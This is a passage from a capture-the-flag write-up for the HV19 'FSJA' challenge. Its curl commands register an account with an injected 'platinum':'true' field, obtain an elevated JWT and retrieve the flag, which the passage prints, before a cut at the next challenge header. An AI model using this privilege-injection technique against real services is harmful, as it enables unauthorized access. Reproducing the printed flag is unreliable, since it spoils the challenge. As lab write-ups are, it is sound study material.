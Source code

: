 

    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"0xdfdf", "password": "passwordpassword", "platinum": "true"}'
    {"message":"User created","code":201}



Now I log in to get the token:



    $ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"0xdfdf", "password": "passwordpassword"}'
    {"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiMHhkZmRmIiwicGxhdGludW0iOnRydWV9LCJleHAiOjE1NzYwMzI0NjQuODExMDAwMDAwfQ.3ZJH-BjN9-EGv2_YGgLeF_qGaFDwgzaMPzKgurOoW_s"}



If I toss that token into the debugger at [jwt.io](https://jwt.io), I
see that `platinum` is set to true for this token:

![](/img/image-20191210205109717.png)

Now if I request a quote, I get the flag:



    $ curl -s -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoiMHhkZmRmIiwicGxhdGludW0iOnRydWV9LCJleHAiOjE1NzYwMzI0NjQuODExMDAwMDAwfQ.3ZJH-BjN9-EGv2_YGgLeF_qGaFDwgzaMPzKgurOoW_s"
    {"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}



**Flag: `HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}`**

## Hidden 3

### Challenge

  ---------------------------------------------------------------------------------------------------------------
  ![](/img/hv19-ballH3.png)   HV19.H3 Hidden Three
  ------------------------------------------------------- -------------------------------------------------------
  Categories:                                             ![](/img/hv-cat-fun.png)FUN\